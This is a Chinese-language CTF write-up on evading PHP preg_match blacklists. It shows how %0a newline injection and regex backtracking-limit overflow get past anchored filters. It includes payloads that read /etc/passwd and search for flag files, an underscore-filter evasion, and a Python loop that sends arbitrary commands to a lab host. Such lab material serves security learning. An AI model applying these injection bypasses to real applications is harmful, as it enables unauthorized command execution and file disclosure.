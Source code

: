```
if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias省略见下面|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];


preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|
compgen|complete|continue|declare|dirs|disown|
echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|
kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|
shopt|source|suspend|test|times|trap|type|typeset|ulimit|
umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) 

```
正则匹配表达式采用了^xxx$的格式，同时也采用了.*这样的贪婪匹配，所以有两个方案来绕过正则——回溯次数超限和利用%0a。

^
## **%0a绕过**
因为正则匹配中'^'和'$'代表的是行的开头和结尾,所以能利用换行绕过。
![](.topwrite/assets/image_1728045913134.png)
```
cmd={"cmd":"/bin/cat%20/etc/passwd"}
cmd=%0a%0a{"cmd":"/bin/cat%20/etc/passwd"}%0a%0a
cmd=%0a%0a{"cmd":"/usr/bin/find%20/%20-name%20flag*"}%0a%0a
```

其他案例：
```
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```
$_SERVER['QUERY_STRING']获取查询语句，既要绕过get参数中下划线_的过滤，用.替换，还要绕过正则匹配的23333，通过%0a。
```
?b.u.p.t=23333%0a
```

^
## **回溯次数超限绕过**
```
import requests as res

url="http://a3388f0b-b347-4570-ad9e-88649da2aa29.node4.buuoj.cn:81/"
while(True):
    payload=input("resp:")
    resp=res.get(url,params={"cmd":'\x0a\x0a{"cmd":"%s"}\x0a\x0a'%(payload)})
    print(resp.text)
```